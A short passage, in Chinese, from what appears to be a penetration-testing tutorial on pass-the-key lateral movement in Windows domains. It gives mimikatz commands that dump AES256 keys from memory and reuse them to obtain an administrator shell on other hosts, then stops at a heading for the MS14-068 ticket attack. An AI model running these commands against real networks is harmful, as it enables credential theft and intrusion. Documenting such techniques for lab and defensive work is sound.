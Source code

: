 [![](assets/1702372940-70d52ce936d25fa8be8e3f6148bc6936.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/24.png)

## [](#PTK-mimikatz "PTK-mimikatz")PTK-mimikatz[](#PTK-mimikatz)

如果禁用了ntlm认证，PsExec无法利用获得的ntlm hash进行远程连接，但是使用mimikatz还是可以攻击成功。对于`8.1/2012r2`，安装补丁kb2871997的`Win 7/2008r2/8/2012`等，可以使用AES keys代替NT hash来实现ptk攻击

-   **pth**：没打补丁用户都可以连接，打了补丁只能administrator连接
-   **ptk**：打了补丁才能用户都可以连接，采用aes256连接

1.  首先使用mimikatz获取aes256

```plain
mimikatz sekurlsa::ekeys
```

2.  攻击该域内其它主机，成功后返回cmd

```bash
mimikatz sekurlsa::pth /user:administrator /domain:god /aes256:d55913af88d543d2411109270ea36c1c29a71de7a3156d61cd6989feb0f1ae
```

## [](#PTT-ms14068 "PTT-ms14068")PTT-ms14068[](#PTT-ms14068)
